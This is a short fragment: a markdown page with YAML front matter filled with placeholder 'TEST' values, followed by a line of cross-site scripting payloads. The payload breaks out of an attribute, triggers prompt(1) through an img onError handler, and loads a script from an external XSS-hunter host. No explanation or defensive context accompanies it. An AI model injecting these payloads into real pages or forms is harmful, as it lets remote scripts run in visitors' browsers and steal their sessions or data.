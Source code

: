 ```yaml
---
title: TEST
author: TEST
description: TEST
meta_description: TEST
twitter_image: /img/dnt.svg
date: 2023-01-24T04:03:00.035Z
---
```

"><img src=x onError=prompt(1)>"><script src=https://bugvsme.xss.ht></script>